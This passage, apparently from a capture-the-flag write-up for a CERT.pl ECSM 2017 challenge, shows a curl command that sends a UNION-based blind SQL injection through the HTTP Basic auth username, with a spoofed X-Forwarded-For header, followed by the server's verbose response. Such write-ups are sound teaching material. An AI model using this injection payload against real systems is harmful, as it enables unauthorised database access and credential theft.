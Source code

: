 ```
</html>
```

__SPOILER__: no, ```admin``` user does not have any message saved in database.


Now, let's try some not existing username:

```
$ curl --verbose --user-agent "hackerone.com/bl4de" --header "X-Forwarded-For: 175.45.176.100" --user "name' or '1'='2' UNION SELECT 'user', CASE WHEN (SELECT login FROM users LIMIT 1)='Korg' THEN '5f4dcc3b5aa765d61d8327deb882cf99' ELSE '' END--":password  http://ecsm2017.cert.pl:6044/index.php/instructions
*   Trying 136.243.148.95...
* TCP_NODELAY set
* Connected to ecsm2017.cert.pl (136.243.148.95) port 6044 (#0)
* Server auth using Basic with user 'name' or '1'='2' UNION SELECT 'user', CASE WHEN (SELECT login FROM users LIMIT 1)='Korg' THEN '5f4dcc3b5aa765d61d8327deb882cf99' ELSE '' END--'
> GET /index.php/instructions HTTP/1.1
> Host: ecsm2017.cert.pl:6044
> Authorization: Basic bmFtZScgb3IgJzEnPScyJyBVTklPTiBTRUxFQ1QgJ3VzZXInLCBDQVNFIFdIRU4gKFNFTEVDVCBsb2dpbiBGUk9NIHVzZXJzIExJTUlUIDEpPSdLb3JnJyBUSEVOICc1ZjRkY2MzYjVhYTc2NWQ2MWQ4MzI3ZGViODgyY2Y5OScgRUxTRSAnJyBFTkQtLTpwYXNzd29yZA==
> User-Agent: hackerone.com/bl4de
> Accept: */*
> X-Forwarded-For: 175.45.176.100
>
* HTTP 1.0, assume close after body
< HTTP/1.0 401 Unauthorized
< Date: Fri, 17 Nov 2017 00:00:49 GMT
< Server: Apache
* Authentication problem. Ignoring this.
< WWW-Authenticate: Basic realm="WRONG PASSWORD"
< Content-Length: 244
< Connection: close
< Content-Type: text/html; charset=UTF-8
<
<html>
<head>
<style>
body { background-color: #AA0000; color: white; font-size: 300%;}
</style>
</head>
<body>

<nav>
    <a href="/index.php/home">집</a>
    |
    <a href="/index.php/instructions">명령</a>
</nav>

<hr />


</body>
* Closing connection 0
</html>
```
